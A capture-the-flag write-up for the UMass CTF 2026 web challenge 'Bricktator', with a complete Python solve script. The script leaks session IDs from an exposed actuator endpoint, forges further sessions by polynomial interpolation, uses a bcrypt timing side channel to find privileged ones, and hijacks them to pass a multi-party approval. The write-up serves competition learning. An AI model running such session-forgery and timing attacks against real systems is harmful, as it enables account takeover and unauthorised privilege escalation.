

# Bricktator — UMass CTF 2026

> **Room / Challenge:** Bricktator (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** Bricktator (web)

---

<p align="center"></p>

## Goal

Get admin approvals and get the flag.

## My Solution

Download the source here: [source.zip](https://github.com/jameskaois/ctf-writeups/raw/refs/heads/main/umass-ctf-2026/Bricktator2/source.zip).

The vulnerability is a timing side channel in session authorization.

`CommandWorkFilter` does expensive bcrypt work on every `/command` request, but only when the replayed session belongs to a `YANKEE_WHITE` user. That means you can test generated session IDs by timing `/command` responses and distinguish privileged sessions from normal ones

The rest of the chain:

- `/actuator/sessions` leaks three seeded session IDs
- those IDs are enough to reconstruct all valid seeded sessions
- then the timing leak tells you which ones are YANKEE_WHITE
- and those can be used to satisfy the 5-party override

Solve script:

```python
import base64
import concurrent.futures as cf
import html
import os
import re
import statistics
import sys
import time

import requests

BASE = os.environ.get("BASE", "http://bricktatorv2.web.ctf.umasscybersec.org:8080").rstrip("/")
USERNAME = "bricktator"
PASSWORD = "goldeagle"
PRIME = 2147483647
TIMEOUT = 10
WORKERS = 20
CHUNK = 160

SESSION_RE = re.compile(r"\b\d{5}-[0-9a-f]{8}\b")
TOKEN_RE = re.compile(r"/override/([0-9a-f]{32})")
FLAG_RE = re.compile(r"UMASS\{[^}]+\}")


def log(msg: str) -> None:
    print(msg, flush=True)


def fail(msg: str) -> None:
    raise SystemExit(msg)


def b64(s: str) -> str:
    return base64.b64encode(s.encode()).decode()


def parse_sid(sid: str) -> tuple[int, int]:
    x, y = sid.split("-", 1)
    return int(x), int(y, 16)


def lagrange(points: list[tuple[int, int]], x: int, p: int = PRIME) -> int:
    total = 0
    for i, (xi, yi) in enumerate(points):
        num = den = 1
        for j, (xj, _) in enumerate(points):
            if i == j:
                continue
            num = (num * (x - xj)) % p
            den = (den * (xi - xj)) % p
        total = (total + yi * num * pow(den, -1, p)) % p
    return total


def gen_sid(points: list[tuple[int, int]], x: int) -> str:
    return f"{x:05d}-{lagrange(points, x):08x}"


def extract_sids(data) -> list[str]:
    return sorted(set(SESSION_RE.findall(str(data))))


def login() -> requests.Session:
    s = requests.Session()
    s.headers["User-Agent"] = "solve.py"
    s.get(f"{BASE}/login", timeout=TIMEOUT)
    s.post(
        f"{BASE}/login",
        data={"username": USERNAME, "password": PASSWORD},
        timeout=TIMEOUT,
        allow_redirects=True,
    )
    cookie = s.cookies.get("SESSION")
    if not cookie:
        fail("login failed")
    try:
        log(f"session {base64.b64decode(cookie).decode()}")
    except Exception:
        log("logged in")
    return s


def leak_share(s: requests.Session, username: str) -> str:
    r = s.get(f"{BASE}/actuator/sessions?username={username}", timeout=TIMEOUT)
    ids = extract_sids(r.json() if "json" in r.headers.get("content-type", "") else r.text)
    if not ids:
        ids = extract_sids(r.text)
    if not ids:
        fail(f"no session for {username}")
    return ids[0]


def check_sid(s: requests.Session, sid: str) -> None:
    r = s.get(f"{BASE}/actuator/sessions/{sid}", timeout=TIMEOUT)
    if r.status_code != 200:
        fail(f"bad generated sid: {sid}")


def time_command(raw_sid: str, reps: int = 1) -> float:
    cookie = {"SESSION": b64(raw_sid)}
    vals = []
    for _ in range(reps):
        t0 = time.perf_counter()
        try:
            requests.get(
                f"{BASE}/command",
                cookies=cookie,
                headers={"User-Agent": "solve.py"},
                timeout=TIMEOUT,
                allow_redirects=False,
            )
            vals.append(time.perf_counter() - t0)
        except requests.RequestException:
            vals.append(999.0)
    return statistics.median(vals)


def open_channel(s: requests.Session) -> str:
    r = s.post(f"{BASE}/command/override", timeout=TIMEOUT, allow_redirects=True)
    m = TOKEN_RE.search(r.text)
    if not m:
        fail("no token")
    return m.group(1)


def visible_text(raw: str) -> str:
    raw = re.sub(r"<!--.*?-->", " ", raw, flags=re.S)
    raw = re.sub(r"<script.*?</script>", " ", raw, flags=re.S | re.I)
    raw = re.sub(r"<style.*?</style>", " ", raw, flags=re.S | re.I)
    raw = re.sub(r"<[^>]+>", " ", raw)
    return " ".join(html.unescape(raw).split()).lower()


def extract_count(raw: str) -> int | None:
    m = re.search(r"\b([1-5])\s+of\s+([1-5])\b", visible_text(raw))
    return int(m.group(1)) if m else None


def approve(raw_sid: str, token: str) -> tuple[str, str, int | None]:
    r = requests.post(
        f"{BASE}/override/{token}",
        cookies={"SESSION": b64(raw_sid)},
        headers={"User-Agent": "solve.py"},
        timeout=TIMEOUT,
        allow_redirects=True,
    )
    text = r.text
    view = visible_text(text)

    m = FLAG_RE.search(text)
    if m:
        return "FLAG", m.group(0), 5
    if "override sequence terminated" in view:
        return "CANCELLED", text, extract_count(text)
    if "token invalid or expired" in view:
        return "INVALID", text, extract_count(text)
    if "token expired" in view:
        return "EXPIRED", text, extract_count(text)
    if "your authorization has been recorded" in view or "authorization recorded" in view:
        return "OK", text, extract_count(text)
    if "already recorded" in view or "already approved" in view:
        return "ALREADY", text, extract_count(text)
    return "UNKNOWN", text, extract_count(text)


def find_keepers(points: list[tuple[int, int]], admin_sid: str) -> list[str]:
    john_sid = gen_sid(points, 1)
    jane_sid = gen_sid(points, 5)

    fast = statistics.median([time_command(john_sid, 2), time_command(jane_sid, 2)])
    slow = time_command(admin_sid, 3)

    threshold = fast + 0.55 * (slow - fast)
    suspect_cutoff = fast + 0.30 * (slow - fast)

    log(f"fast={fast:.3f}s slow={slow:.3f}s")
    log(f"threshold={threshold:.3f}s")

    xs = [x for x in range(1, 5002) if x not in (1, 5, 5001)]
    keepers = []

    def sample(x: int):
        sid = gen_sid(points, x)
        return x, sid, time_command(sid, 1)

    for off in range(0, len(xs), CHUNK):
        chunk = xs[off:off + CHUNK]
        with cf.ThreadPoolExecutor(max_workers=WORKERS) as ex:
            rows = list(ex.map(sample, chunk))

        rows.sort(key=lambda row: row[2], reverse=True)
        suspects = [row for row in rows[:10] if row[2] >= suspect_cutoff]

        for x, sid, first in suspects:
            if sid in keepers:
                continue
            t = statistics.median([first, time_command(sid, 2)])
            if t >= threshold:
                keepers.append(sid)
                log(f"keeper {len(keepers)}: {sid}")
                if len(keepers) == 4:
                    return keepers

        if (off // CHUNK + 1) % 5 == 0:
            log(f"scanned {off + len(chunk)}")

    fail("not enough keepers")


def fire_final(keepers: list[str]) -> str:
    s = login()
    token = open_channel(s)
    expected = 2

    for sid in keepers:
        status, out, count = approve(sid, token)
        log(f"{sid} -> {status} ({count})")

        if status == "FLAG":
            return out
        if status == "OK" or count == expected:
            expected += 1
            continue

        fail(f"failed on {sid}: {status}")

    fail("no flag")


def main() -> None:
    s = login()

    bricktator_sid = leak_share(s, "bricktator")
    john_sid = leak_share(s, "john_doe")
    jane_sid = leak_share(s, "jane_doe")

    points = sorted(
        [parse_sid(bricktator_sid), parse_sid(john_sid), parse_sid(jane_sid)],
        key=lambda p: p[0],
    )

    for x in (1, 2, 3, 4, 5, 5001):
        check_sid(s, gen_sid(points, x))

    keepers = find_keepers(points, bricktator_sid)
    log(str(keepers))

    print(fire_final(keepers))


if __name__ == "__main__":
    main()
```
